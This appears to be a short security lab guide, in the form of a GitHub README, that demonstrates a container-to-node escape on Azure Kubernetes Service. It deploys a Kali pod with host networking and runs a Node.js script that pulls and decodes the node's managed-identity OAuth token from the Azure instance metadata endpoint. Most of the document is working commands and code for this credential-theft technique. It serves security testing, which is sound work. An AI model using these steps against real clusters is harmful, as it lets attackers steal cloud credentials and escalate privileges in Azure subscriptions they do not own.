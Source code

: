 # Test Container to Node escape

**Prereqs**

In Azure CLI have cluster ready and kubectl installed  (these depedencies are not explored further in this post)

```sh
NAME=aksf-$RANDOM
NAMER=RG-aks-$NAME
az aks create -n $NAME -g $NAMER --enable-addons azure-keyvault-secrets-provider --enable-managed-identity

```

**Kali image**

- save image to spec.yaml


```yaml
apiVersion: v1
kind: Pod
metadata:
  name: kali
  labels:
    app: kali
spec:
  containers:
  - name: kali
    image: kalilinux/kali-rolling
    command:
        - "/bin/sleep"
        - "10000"
  hostNetwork: true
  dnsPolicy: Default
```

```sh
kubectl apply -f spec.yaml
kubectl exec --stdin --tty kali -- /bin/bash

```

---

# Once in KALI Shell

```sh
apt update -y;
apt install curl -y;


curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash

export NVM_DIR="$([ -z "${XDG_CONFIG_HOME-}" ] && printf %s "${HOME}/.nvm" || printf %s "${XDG_CONFIG_HOME}/nvm")"
[ -s "$NVM_DIR/nvm.sh" ] && \. "$NVM_DIR/nvm.sh" # This loads nvm

nvm install 14

nvm use 14

mkdir getToken

cd getToken

echo '
{
  "name": "imds",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "axios": "^0.27.2",
    "jsonwebtoken": "^8.5.1"
  }
}
' > package.json

npm install

echo '

const { default: axios } = require("axios");
const { decode } = require("jsonwebtoken");

getToken()
async function getToken () {

    let options ={
        url:"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com",
        headers:{
            metadata:true
        }
    }
    let {data} = await axios(options).catch(error => console.log(error?.response?.data || error))
    console.log(data)
    console.log(decode(data?.access_token))
}

' > getToken.js

node getToken.js

```

**Expected end result**

![](20220830101015.png)  

